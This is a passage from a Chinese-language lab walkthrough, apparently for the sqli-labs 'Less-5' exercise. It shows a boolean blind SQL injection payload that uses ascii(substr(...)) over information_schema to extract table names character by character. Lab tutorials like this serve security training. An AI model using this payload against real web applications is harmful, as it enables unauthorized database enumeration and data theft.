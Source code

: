 ![Less-5_8](./img/Less-5_8.PNG)

返回了正确页面，说明数据表名联合长度就是29



+ 同样的注入以下语句根据<code>ASCII</code>表逐个字符地判断联合数据表名是什么

~~~ shell
?id=1'and ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))=101--+
逐一判断表名
~~~

![Less-5_9](./img/Less-5_9.PNG)

